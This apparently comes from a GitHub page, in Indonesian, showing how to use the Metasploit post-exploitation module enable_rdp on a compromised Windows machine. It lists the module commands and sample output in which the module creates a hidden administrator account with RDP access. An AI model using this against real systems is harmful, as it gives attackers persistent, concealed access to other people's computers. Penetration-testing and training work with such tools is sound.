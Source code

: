 # enable_rdp

Modul `enable_rdp` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengaktifkan fitur Remote Desktop Protocol (RDP) pada komputer target. Modul ini bekerja setelah akses ke sistem berhasil diperoleh (misalnya via meterpreter) dan akan melakukan perubahan pada registry serta konfigurasi sistem untuk mengizinkan koneksi `RDP`, sehingga memungkinkan penyerang untuk mengakses desktop target secara langsung melalui Remote Desktop setelah mendapatkan kredensial yang sesuai.

## Cara Penggunaan di Metasploit

```
use post/windows/manage/enable_rdp
set ENABLE true
set FORWARD false
set LPORT 3389
set PASSWORD <PASSWORD>
set SESSION <ID>
set USERNAME <USERNAME>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Enabling Remote Desktop
[*] 	RDP is already enabled
[*] Setting Terminal Services service startup mode
[*] 	Terminal Services service is already set to auto
[*] 	Opening port in local firewall if necessary
[*] Setting user account for logon
[*] 	Adding User: fixploit03 with Password: fixploit03
[*] 	Adding User: fixploit03 to local group 'Remote Desktop Users'
[*] 	Hiding user from Windows Login screen
[*] 	Adding User: fixploit03 to local group 'Administrators'
[*] You can now login with the created user
[*] For cleanup execute Meterpreter resource file: /root/.msf4/loot/20250516221529_default_192.168.1.52_host.windows.cle_571851.txt
[*] Post module execution completed
```
